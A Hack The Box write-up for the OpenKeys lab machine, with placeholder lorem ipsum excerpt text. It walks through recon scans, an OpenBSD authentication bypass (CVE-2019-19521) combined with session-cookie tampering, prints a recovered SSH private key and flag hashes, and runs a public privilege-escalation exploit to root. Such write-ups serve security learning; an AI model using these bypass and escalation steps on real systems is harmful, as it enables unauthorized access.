 ```yaml
---
layout: single
title: Openkeys - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-09-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-openkeys/openkeys_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-openkeys/openkeys_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/openkeys# nmap -Pn -n -sC -sV 10.10.10.199
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey:
    |   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
    |   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
    |_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
    80/tcp open  http    OpenBSD httpd
    |_http-title: Site doesn't have a title (text/html).

    DIRB:
    ==> DIRECTORY: http://10.10.10.199/css/
    ==> DIRECTORY: http://10.10.10.199/fonts/
    ==> DIRECTORY: http://10.10.10.199/images/
    ==> DIRECTORY: http://10.10.10.199/includes/
    + http://10.10.10.199/index.html (CODE:200|SIZE:96)
    + http://10.10.10.199/index.php (CODE:200|SIZE:4837)
    ==> DIRECTORY: http://10.10.10.199/js/
    ==> DIRECTORY: http://10.10.10.199/vendor/

    NIKTO:
    + Server: OpenBSD httpd
    + Cookie PHPSESSID created without the httponly flag
    + Multiple index files found: /index.php, /index.html
    + OSVDB-3092: /includes/: This might be interesting...


2. Enumerating the webserver we find some interesting files right away.

  http://10.10.10.199/includes/auth.php.swp

  Download the swap-file and restor it by using 'vim -r auth.php.swp', save the file as auth.php (:w auth.php)

    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/includes/auth.php.swp --output auth.php.swp
    root@nidus:/git/htb/openkeys# cat auth.php
      [..]
      $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
      system($cmd, $retcode);
      [..]
      function init_session()
      {
          $_SESSION["logged_in"] = True;
          $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
          $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
          $_SESSION["username"] = $_REQUEST['username'];

  From the first snippet of the code we see that username and passwords are verified using '../auth_helpers/check_auth'
  In the second snippet we learn that the SESSION variable is controlled in the init-function, including username on the last line.

  Lastly, running strings on the swap file gives us a user - Jennifer.

    root@nidus:/git/htb/openkeys# strings auth.php.swp
      b0VIM 8.1
      jennifer
      openkeys.htb
      [..]

  Download the check_auth program, and enumerate it.
    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/auth_helpers/check_auth --output check_auth
    root@nidus:/git/htb/openkeys# file check_auth
      check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped

  We could try to RE this ELF-file, however I'll go with this as a last resort. As for now it is not needed.


3. With all enumerated information, lets start to look for exploits. Pretty quickly we find an article covering
   four big OpenBSD vulnerabilities:
     - CVE-2019-19519 (Local privilege escalation)
     - CVE-2019-19520 (Local privilege escalation)
     - CVE-2019-19521 (Authentication Bypass)
     - CVE-2019-19522 (Local privilege escalation)

  CVE-2019-19521 tells us in short that we can bypass the auth by entering '-schallenge' as username, and any password.
  Trying this on our login prompt is successful, we are greeted with the text "OpenSSH key not found for user -schallenge"

  This is where I got stuck for a good while and had to turn to the forums for help. But as we could see before, the SESSION
  variable username can be controlled - and maybe tampered with in the cookie. Set the Name-filed to 'username' and
  Value-filed to 'jennifer'.

  Log in and out again, and voila! We got Jennifer's private key!

     -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----


4. Save the private key, login as Jennifer and grab user.txt.

    root@nidus:/git/htb/openkeys# ssh jennifer@openkeys.htb -i jennifer_id-rsa
      Last login: Wed Jun 24 09:31:16 2020 from 10.10.14.2
      OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

      Welcome to OpenBSD: The proactively secure Unix-like operating system.

      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.

      openkeys$ id
        uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      openkeys$ cat user.txt
        36ab21239a15c537bde90626891d2b10



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. From our previous article, we also found three CVE's for Local PrivEsc, CVE-2019-19519, CVE-2019-19520 and CVE-2019-19522.
   A quick google for the CVE's we find a script called openbsd-authroot on github, download it and try it out.

    openkeys$ vi openbsd-authroot
    openkeys$ chmod +x openbsd-authroot
    openkeys$ ./openbsd-authroot
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
      [*] checking system ...
      [*] system supports S/Key authentication
      [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      [*] compiling ...
      [*] running Xvfb ...
      [*] testing for CVE-2019-19520 ...
      _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
      [+] success! we have auth group permissions

      WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

      [*] trying CVE-2019-19522 (S/Key) ...
      Your password is: EGG LARD GROW HOG DRAG LAIN
      otp-md5 99 obsd91335
      S/Key Password:

      openkeys# id
        uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
      openkeys# cat root.txt
        f3a553b1697050ae885e7c02dbfc6efa


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


OpenBSD Auth Bypass
  https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/
  https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt

openbsd-authroot PrivEsc
  https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot
